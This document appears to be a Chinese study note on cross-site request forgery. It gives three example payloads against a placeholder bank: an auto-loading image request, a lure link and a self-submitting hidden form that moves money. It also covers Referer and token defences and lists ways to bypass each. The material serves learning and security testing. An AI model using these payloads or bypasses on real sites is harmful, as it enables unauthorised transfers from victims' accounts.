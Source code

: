 Cross-Site Request Forgery 跨站请求伪造
![](图片/Pasted%20image%2020241118092155.png)
- 修改账户信息 
- 利用管理员账号，上传木马文件 
- 传播蠕虫病毒（点击、扩散、点击……） 
- 和其他攻击手段配合，实现攻击，比如XSS、SQL注入
与xss（跨站脚本攻击）的区别
![](图片/Pasted%20image%2020241118092313.png)



payload （根据bank porn练习）
1. 通过图片的img src属性，自动加载，发起GET请求
```html
<img src="http://superbank.com/bank/transfer.php?nameid=20
 02&amount=1000" width="0" height="0">
```

2. 构建一个超链接，用户点击以后，发起GET请求
```html
    <a herf="http://superbank.com/transfer.php?amount=1000&
 to=jiangang" target="_bank">小姐姐在线视频聊天<a/>
```

3. 构建一个隐藏表单，用户访问，自动提交，发起POST请求

```html
<form action="http://superbank.com/withdraw" method=POST>
 <input type="hidden" name="account" value="xiaoming" />
 <input type="hidden" name="amount" value="1000" />
 <input type="hidden" name="to" value="jiangang" />
 </form>
 <script> document.forms[0].submit(); </script>
 ```

![](图片/Pasted%20image%2020241118094136.png)
csrf属于业务逻辑漏洞，攻击者没有盗用用户的信息和诱导用户进行操作，只要用户访问了攻击页面，攻击者就会伪造成用户向服务器发出请求。
特别注意<3>用户在没有登出A网站的情况下，访问攻击页面




防御
同源策略
Referer
![](图片/Pasted%20image%2020241118095920.png)
通过www.baidu.com访问
绕过方法：
- 注册该域名的子域名
- 通过burpsuite修改referer
- 可以直接删除referer（bp，`<meta name="referrer" content="never">`)请求头没有，服务器不会验证

cookie token
[使用Burp Suite 两种方式绕过 CSRF_TOKEN_bursuit +csrf token-CSDN博客](https://blog.csdn.net/slslslyxz/article/details/111302778)
部分绕过方法
（1）token没有和用户的session绑定  
如果服务器是直接弄了个token池，如果用户提交的请求中的token能和token池中的任意一个token对应上，就能认证通过的话，那么我们可以先去该网站登录，获取一个该网站的token值，然后在CSRF攻击请求上将这个token值添加上去，这样也可以绕过验证
（2）CSRF token没有绑定到指定用户的session上  
如果服务器没有将token值与用户的session绑定，并且能够让攻击者在受害者机器上设置cookie的功能，那么我们也可以通过，登录自己的账户获得cookie和对应的token值，然后将自己的cookie和token设置到受害者的电脑上，这样就可以绕过token的验证了




工具
[CSRF自动化测试-CSRFTester-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2148792)
[CSRF跨站请求伪造漏洞 && CSRFTester使用教程 - bcxc9405 - 博客园](https://www.cnblogs.com/bcxc/articles/17109586.html)



[CSRFTexter].(<file:///D:\CTF_something\CSRFTester-1.0\run.bat>)

